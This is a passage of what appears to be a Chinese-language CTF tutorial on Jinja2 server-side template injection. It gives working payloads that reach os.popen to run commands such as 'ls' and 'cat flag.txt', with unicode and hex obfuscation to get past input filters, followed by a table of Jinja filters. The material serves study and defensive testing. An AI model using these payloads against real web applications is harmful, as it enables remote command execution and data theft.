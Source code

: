 ```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

先用`|attr` 绕过`.`和`[]`：

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

我们可以将过滤掉的字符用unicode替换掉：

```python
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```

### 用Hex编码配合 |attr() 进行Bypass

我们可以将过滤掉的字符用Hex编码替换掉：

```python
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}
```

## 使用 JinJa 的过滤器进行Bypass

以下是内置的所有的过滤器列表：

| [abs()](https://jinja.palletsprojects.com/en/master/templates/#abs) | [float()](https://jinja.palletsprojects.com/en/master/templates/#float) | [lower()](https://jinja.palletsprojects.com/en/master/templates/#lower) | [round()](https://jinja.palletsprojects.com/en/master/templates/#round) | [tojson()](https://jinja.palletsprojects.com/en/master/templates/#tojson) |
| --- | --- | --- | --- | --- |
| [attr()](https://jinja.palletsprojects.com/en/master/templates/#attr) | [forceescape()](https://jinja.palletsprojects.com/en/master/templates/#forceescape) | [map()](https://jinja.palletsprojects.com/en/master/templates/#map) | [safe()](https://jinja.palletsprojects.com/en/master/templates/#safe) | [trim()](https://jinja.palletsprojects.com/en/master/templates/#trim) |
| [batch()](https://jinja.palletsprojects.com/en/master/templates/#batch) | [format()](https://jinja.palletsprojects.com/en/master/templates/#format) | [max()](https://jinja.palletsprojects.com/en/master/templates/#max) | [select()](https://jinja.palletsprojects.com/en/master/templates/#select) | [truncate()](https://jinja.palletsprojects.com/en/master/templates/#truncate) |
| [capitalize()](https://jinja.palletsprojects.com/en/master/templates/#capitalize) | [groupby()](https://jinja.palletsprojects.com/en/master/templates/#groupby) | [min()](https://jinja.palletsprojects.com/en/master/templates/#min) | [selectattr()](https://jinja.palletsprojects.com/en/master/templates/#selectattr) | [unique()](https://jinja.palletsprojects.com/en/master/templates/#unique) |
| [center()](https://jinja.palletsprojects.com/en/master/templates/#center) | [indent()](https://jinja.palletsprojects.com/en/master/templates/#indent) | [pprint()](https://jinja.palletsprojects.com/en/master/templates/#pprint) | [slice()](https://jinja.palletsprojects.com/en/master/templates/#slice) | [upper()](https://jinja.palletsprojects.com/en/master/templates/#upper) |
| [default()](https://jinja.palletsprojects.com/en/master/templates/#default) | [int()](https://jinja.palletsprojects.com/en/master/templates/#int) | [random()](https://jinja.palletsprojects.com/en/master/templates/#random) | [sort()](https://jinja.palletsprojects.com/en/master/templates/#sort) | [urlencode()](https://jinja.palletsprojects.com/en/master/templates/#urlencode) |
| [dictsort()](https://jinja.palletsprojects.com/en/master/templates/#dictsort) | [join()](https://jinja.palletsprojects.com/en/master/templates/#join) | [reject()](https://jinja.palletsprojects.com/en/master/templates/#reject) | [string()](https://jinja.palletsprojects.com/en/master/templates/#string) | [urlize()](https://jinja.palletsprojects.com/en/master/templates/#urlize) |
| [escape()](https://jinja.palletsprojects.com/en/master/templates/#escape) | [last()](https://jinja.palletsprojects.com/en/master/templates/#last) | [rejectattr()](https://jinja.palletsprojects.com/en/master/templates/#rejectattr) | [striptags()](https://jinja.palletsprojects.com/en/master/templates/#striptags) | [wordcount()](https://jinja.palletsprojects.com/en/master/templates/#wordcount) |
| [filesizeformat()](https://jinja.palletsprojects.com/en/master/templates/#filesizeformat) | [length()](https://jinja.palletsprojects.com/en/master/templates/#length) | [replace()](https://jinja.palletsprojects.com/en/master/templates/#replace) | [sum()](https://jinja.palletsprojects.com/en/master/templates/#sum) | [wordwrap()](https://jinja.palletsprojects.com/en/master/templates/#wordwrap) |
| [first()](https://jinja.palletsprojects.com/en/master/templates/#first) | [list()](https://jinja.palletsprojects.com/en/master/templates/#list) | [reverse()](https://jinja.palletsprojects.com/en/master/templates/#reverse) | [title()](https://jinja.palletsprojects.com/en/master/templates/#title) | [xmlattr()](https://jinja.palletsprojects.com/en/master/templates/#xmlattr) |
